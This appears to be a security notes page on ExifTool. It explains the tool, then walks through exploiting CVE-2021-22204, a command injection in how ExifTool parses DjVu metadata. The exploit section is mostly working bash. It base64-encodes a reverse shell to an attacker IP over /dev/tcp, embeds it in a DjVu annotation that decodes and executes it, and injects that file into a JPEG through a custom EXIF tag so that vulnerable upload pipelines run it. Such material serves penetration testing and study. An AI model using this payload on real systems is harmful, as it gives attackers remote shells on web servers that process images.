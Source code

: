 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# ExifTool

[ExifTool](https://exiftool.org/) is a feature-rich command-line application and Perl library designed for reading, writing, and manipulating metadata in a wide range of file formats. It supports images, videos, audio files, documents, and archives, offering extensive coverage of metadata standards such as EXIF, IPTC, XMP, ICC profiles, MakerNotes, and many others. By providing both a flexible command-line interface and programmatic access through its library, ExifTool has become a standard utility in digital forensics, photography, media production, and security research.

The tool operates by parsing embedded metadata structures and presenting them in a human-readable form, while also allowing modification or removal of those fields. It can process multiple files recursively, extract hidden or non-standard metadata, and convert between metadata formats, making it invaluable for both investigative and automation tasks.

## Command Injection

&#x20;ExifTool `≤12.23` is vulnerable to a RCE vulnerability ([CVE-2021-22204](https://nvd.nist.gov/vuln/detail/cve-2021-22204)), caused by unsafe parsing of malicious metadata in **DjVu files disguised as JPEGs**. When ExifTool processes such a file—often automatically in image upload workflows—it can execute arbitrary code embedded in the metadata.

Many CMS platforms and web apps use ExifTool for image handling, making this vulnerability exploitable via unauthenticated file uploads if no proper validation exists. Exploited code runs with the privileges of the calling process, typically the web server. The injection process below is taken from INE's [ExifTool Command Injection (CVE-2021-22204)](https://app.gitbook.com/o/asuXdppEfmgK9Dr478w0/s/mjLkek16kB60c2WFd5lf/) blog post.&#x20;

{% code overflow="wrap" %}
```bash
# Encode reverse shell payload to Base64 for safe injection
$ echo 'sh -i >& /dev/tcp/192.168.45.170/443 0>&1' | base64
c2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC40NS4xNzAvNDQzIDA+JjEK

# Create metadata payload with embedded system call to decode and execute shell
$ cat payload
(metadata "\c${system('echo c2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC40NS4xNzAvNDQzIDA+JjEK|base64 -d|bash')};")

# Compress the payload into bzz format (required by DjVu)
$ bzz payload payload.bzz

# Create malicious DjVu file with injected payload
$ djvumake exploit.djvu INFO='1,1' BGjp=/dev/null ANTz=payload.bzz

# Confirm file type is valid DjVu
$ file exploit.djvu
exploit.djvu: DjVu image or single page document

# Define a custom EXIF tag for injecting malicious DjVu file
$ cat config_file
%Image::ExifTool::UserDefined = (
    # All EXIF tags are added to the Main table, and WriteGroup is used to
    # specify where the tag is written (default is ExifIFD if not specified):
    'Image::ExifTool::Exif::Main' => {
        # Example 1.  EXIF:NewEXIFTag
        0xc51b => {
            Name => 'HasselbladExif',  # Custom tag name
            Writable => 'string',
            WriteGroup => 'IFD0',
        },
    },
);
1; # Required line to end the config

# Inject DjVu payload into a JPEG image via the custom EXIF tag
$ exiftool -config config_file '-HasselbladExif<=exploit.djvu' duck.jpg
    1 image files updated
```
{% endcode %}
